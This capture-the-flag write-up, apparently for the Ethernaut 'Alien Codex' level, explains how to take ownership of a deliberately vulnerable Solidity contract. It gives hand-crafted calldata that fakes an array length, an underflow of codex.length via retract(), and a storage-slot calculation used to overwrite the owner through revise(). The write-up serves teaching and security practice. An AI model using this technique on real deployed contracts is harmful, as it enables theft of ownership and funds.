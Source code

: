 # Alien Codex
You've uncovered an Alien contract. Claim ownership to complete the level.
Things that might help
* Understanding how array storage works
* Understanding ABI specifications
* Using a very underhanded approach
```javascript
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```
To bypass the modifier `contacted` of every function, we need to conquer the condition `assert(_firstContactMessage.length > 2**200);` in `make_contact()` function.

Here's array length, if you try to achieve this with `contract.make_contact()`, you have to build a array which length is greater than 2*200.

We got a better method which just simply modified the array length in transaction payload to fake it without real array elements data.

Let's first get the function id for `web3.eth.sendTransaction()`:
![](https://i.imgur.com/9iNUfNg.png)
```javascript
> FuncID="0x1d3d4c0b";
```

Then let's find what's following:
https://solidity.readthedocs.io/en/v0.4.25/abi-spec.html#examples
https://solidity.readthedocs.io/en/v0.4.25/abi-spec.html#use-of-dynamic-types
```javascript
> Location="0000000000000000000000000000000000000000000000000000000000000020";
```
The location of the data part of the first parameter (dynamic type), measured in bytes from the start of the arguments block. In this case, 0x20.
```javascript
> DataLengh="1000000000000000000000000000000000000000000000000000000000000001";
```
Number of elements of the array, `.length > 2**200`
```javascript
> data=FuncID+Location+DataLengh;
> web3.eth.sendTransaction({from:'/*playerAddress*/',to:'/*instanceAddress*/',data: data,gas: 1111111},function(x,y){console.error(y)});
```

After that, we know that all memory space for a contract is `2**256` slot, and array `codex` store at `slot x`.

If we modify `codex[y](y=2**256-x)`, that might overflow `slot 2**256` back to `slot 0` and overwrite it.

Let's first get in to check the codex storage position.
https://solidity.readthedocs.io/en/v0.4.25/miscellaneous.html#layout-of-state-variables-in-storage

From document, we found that array might store at `keccak256(p)`, `p` is position and allocate with type length, in this case, `bytes32`, so final result is `keccak256((bytes32(1)))`.
```javascript
function test() view returns(bytes32){
    return keccak256((bytes32(1)));
}
```
![](https://i.imgur.com/Wg9wMiC.png)

-> `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`

`codex`'s position must be `slot 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

`codex[y](y=2**256-x)` must be `y=2**256-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

```javascript
function test() view returns(uint){
    return 2**256-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6;
}
```

To modify `codex[y]`, we should make sure that `y<codex.length`.

According to `retract()` doesn't have a check for int underflow, we can simply calling it to make `codex.length` from `0` to `2**256-1`.

Then, we overwrite to owner address.

```javascript
await contract.owner()
await contract.codex.length
await contract.retract()
contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x000000000000000000000000eBaEf941c3F10c33792278Ab7d91549DfEf0782B', {from:player, gas: 900000});
await contract.owner()
```